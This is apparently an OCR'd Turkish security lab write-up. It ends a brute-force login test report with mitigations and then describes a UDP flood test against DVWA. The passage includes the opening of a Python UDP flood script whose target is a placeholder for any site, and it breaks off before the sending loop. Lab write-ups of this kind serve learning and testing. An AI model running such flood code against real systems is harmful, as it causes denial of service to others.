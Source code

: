 ```
      etkiler: hesap ele geçirme, lateral hareket, önerilen öncelik düzeltme yapılmalıdır.


   7. Öneriler / Düzeltme (Mitigation):
 — >İyi Uygulamalar
-> Hesap kilitleme (ör. belirli başarısız deneme sayısından sonra hesabı geçici kilitleme).  
->Rate limiting (aynı IP’den gelen istekleri sınırlama).  
-> CAPTCHA veya multi-factor authentication (MFA) kullanımı.  
-> Parola politikası (minimum uzunluk, karmaşıklık) ve güçlü parola zorunluluğu.  
-> Login denemelerini ve hatalı denemeleri detaylı loglama ve anomali tespiti.  
-> Credential stuffing’e karşı koruma (ör. bilinen sızıntı parolaları listesi kontrolü).



   9. Sonraki Adımlar:
1. Daha büyük/çeşitli wordlistlerle testleri genişletin (örn. RockYou, SecLists). 
2. Rate-limiting, CAPTCHA ve MFA etkisini test etmek için savunma mekanizmalarını uygulayın ve tekrar deneyin.  
3. Eğer kurumsal bir rapor gerekiyorsa, CVSS skorlaması ve öneri önceliklendirmesi ekleyin. 

   DVWA Üzerinde UDP Flood Testi - Kısa Rapor::

Bu dosya, DVWA (Damn Vulnerable Web Application) veya ilgili test ortamında gerçekleştirilen UDP Flood saldırısı ve antikor (defense) mekanizmasının testinden bahsetmektedir.

> Özet: Python ile yazılan UDP flood scripti kullanılarak terminalden belirli sayıda paket gönderildi. Test, antikor/defense mekanizmasını ölçmek amacıyla yapıldı ve testi başarılı bir şekilde geçti.



  1. Test Ortamı:
-<İşletim Sistemi: Kali Linux  
-> Hedef Sistem: DVWA / test sunucusu IP  
-> Python Versiyonu: 3.x  
->Test Aracı / Script Dosyası: udp_flood.py  
-> Paket Sayısı: 100000

  2. Amaç:
UDP Flood saldırısı ile hedef sistemin antikor / defense mekanizmasının performansını ve dayanıklılığını test etmek.

  3. Test Adımları:
1. udp_flood.py scripti hazırlandı ve hedef IP/port bilgileri script içine yazıldı.  
2. Terminal üzerinden script çalıştırıldı:

python3 udp_flood.py

3. Script ile 100000 UDP paketi hedefe gönderildi.  
4. Sistem logları, terminal çıktısı ve varsa uygulama/defense mekanizması gözlemleri kaydedildi.  
5. Test sonucu başarılı oldu; antikor sistemi paketleri başarıyla karşıladı.


 4. Kullanılan Script :
python
import socket
import random
import time

target_ip = "Test etmek istediğin sitenin url i"
target_port = 80        
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes_data = random._urandom(1024)
```